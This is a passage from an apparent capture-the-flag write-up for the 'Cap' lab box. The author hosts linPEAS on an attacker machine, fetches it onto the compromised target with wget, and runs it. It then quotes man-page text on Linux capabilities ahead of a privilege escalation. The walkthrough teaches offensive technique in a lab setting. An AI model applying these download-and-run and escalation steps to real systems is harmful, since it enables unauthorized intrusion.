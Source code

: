 ```

oxdf@parrot$ cd /opt/PEASS-ng/linPEAS/
oxdf@parrot$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

I’ll request it with `wget`:

```

nathan@cap:/tmp$ wget 10.10.14.5/linpeas.sh                                                                                             
--2021-10-02 10:33:19--  http://10.10.14.5/linpeas.sh                                                                                   
Connecting to 10.10.14.5:80... connected.                                                                                               
HTTP request sent, awaiting response... 200 OK
Length: 470149 (459K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                        100%[=============================================================>] 459.13K  1.79MB/s    in 0.3s    

2021-10-02 10:33:19 (1.79 MB/s) - ‘linpeas.sh’ saved [470149/470149]

```

And run it with `bash linpeas.sh`. The section on capabilities has `python3.8` highlighted to the max:

![image-20211002063515904](https://0xdfimages.gitlab.io/img/image-20211002063515904.png)

### Shell

#### Capabilities Background

The man page describes `cap_net_bind_service` as:

> ```

> Bind a socket to Internet domain privileged ports (port
> numbers less than 1024).
>
> ```

This is a really useful capability because it allows this one action without giving full root. In fact, I’ve set this capability on `python` on my VM so I don’t have to run `sudo` every time I want to start a Python webserver.

The man page describes `cap_setuid` as:

> ```

> * Make arbitrary manipulations of process UIDs (setuid(2),
> setreuid(2), setresuid(2), setfsuid(2));
> * forge UID when passing socket credentials via UNIX
> domain sockets;
> * write a user ID mapping in a user namespace (see
> user_namespaces(7)).
>
> ```
